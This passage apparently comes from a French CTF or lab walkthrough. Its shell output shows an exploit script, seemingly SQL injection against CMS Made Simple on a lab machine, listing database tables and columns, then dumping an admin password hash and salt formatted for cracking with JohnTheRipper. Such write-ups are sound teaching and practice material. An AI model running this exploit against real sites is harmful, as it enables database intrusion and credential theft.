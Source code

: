 ```shellsession
--- snip ---
INFO:root:[+] Fetching table name #49 of database cmsms_db
cms_users
INFO:root:[+] Fetching table name #50 of database cmsms_db
cms_users_seq
INFO:root:[+] Fetching table name #51 of database cmsms_db
cms_user_groups
INFO:root:[+] Fetching table name #52 of database cmsms_db
cms_version
$ python exploit.py -D cmsms_db -T cms_users --columns  http://192.168.56.76/
INFO:root:[+] Fetching number of columns in cmsms_db.cms_users
INFO:root:[+] Fetching column name #0 of cmsms_db.cms_users
user_id
INFO:root:[+] Fetching column name #1 of cmsms_db.cms_users
username
INFO:root:[+] Fetching column name #2 of cmsms_db.cms_users
password
INFO:root:[+] Fetching column name #3 of cmsms_db.cms_users
admin_access
INFO:root:[+] Fetching column name #4 of cmsms_db.cms_users
first_name
INFO:root:[+] Fetching column name #5 of cmsms_db.cms_users
last_name
INFO:root:[+] Fetching column name #6 of cmsms_db.cms_users
email
INFO:root:[+] Fetching column name #7 of cmsms_db.cms_users
active
INFO:root:[+] Fetching column name #8 of cmsms_db.cms_users
create_date
INFO:root:[+] Fetching column name #9 of cmsms_db.cms_users
modified_date
$ python exploit.py -D cmsms_db -T cms_users -C password --dump  http://192.168.56.76/
INFO:root:[+] Fetching number of rows in cmsms_db.cms_users
INFO:root:[+] Found 1 rows in table cmsms_db.cms_users
idx 0: 7908b1494f82ed320b288a0e839bfbc5
```

Il y a une option qui revient à faire ce que le précédent exploit faisait :

```shellsession
$ python exploit.py --admin-hash http://192.168.56.76/
admin name: christophe
admin email: christophe@christophe.local
admin hash: 7908b1494f82ed320b288a0e839bfbc5
salt: 932129a6bd8545bd
JohnTheRipper hash: christophe:$dynamic_4$7908b1494f82ed320b288a0e839bfbc5$932129a6bd8545bd:::::::
```

Le petit bonus c'est que ça donne aussi le hash dans un format utilisable par `JohnTheRipper` :)

## DIDN'T CLEAN UP LOL
